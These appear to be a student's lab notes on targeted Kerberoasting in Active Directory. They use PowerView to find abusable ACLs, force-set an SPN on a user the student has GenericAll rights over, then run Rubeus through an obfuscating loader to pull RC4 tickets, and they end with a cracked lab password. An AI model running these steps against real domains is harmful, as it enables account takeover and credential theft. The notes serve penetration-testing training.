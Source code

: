 
Task 
• Determine if studentuserx has permissions to set UserAccountControl flags for any user. 
• If yes, force set a SPN on the user and obtain a TGS for the user.


Let’s check if studentuser139 has permissions to set User Account Control settings for any user. Recall from a previous hands-on that we also scan ACLs if any group of which studentuser131 is a member has interesting permissions. Run the below PowerView command from InvisiShell:

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```

![[Pasted image 20250315231622.png]]

PowerShell command is trying to find interesting domain ACLs (Access Control Lists) where the `IdentityReferenceName` matches `"StudentUsers"`. However, if it isn't working as expected, here are a few things to check and improve:

Let’s check if support131user already has a SPN. We can do it with PowerView or ActiveDirectory module. Use the below command from the Active Directory module:

```
Get-ADUser -Identity support131user -Properties ServicePrincipalName | select ServicePrincipalName
```

Since studentuser139 has GenericAll rights on the support131user, let’s force set a SPN on it. Using ActiveDirectory module:

```
Set-ADUser -Identity support131user -ServicePrincipalNames @{Add='us/myspn131'} -Verbose
```


Check again the SPN For support131user

```
Get-ADUser -Identity support131user -Properties ServicePrincipalName | select ServicePrincipalName
```

Now, we can Kerberoast the SPN: Once again, run the below command on the student VM to generate encoded arguments for "kerberoast"

```
C:\AD\Tools\ArgSplit.bat
```



```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:support131user /simple /rc4opsec /outfile:C:\AD\Tools\targetedhashes.txt
```


Let's brute-force the ticket now:


```
pass:Desk@123
```

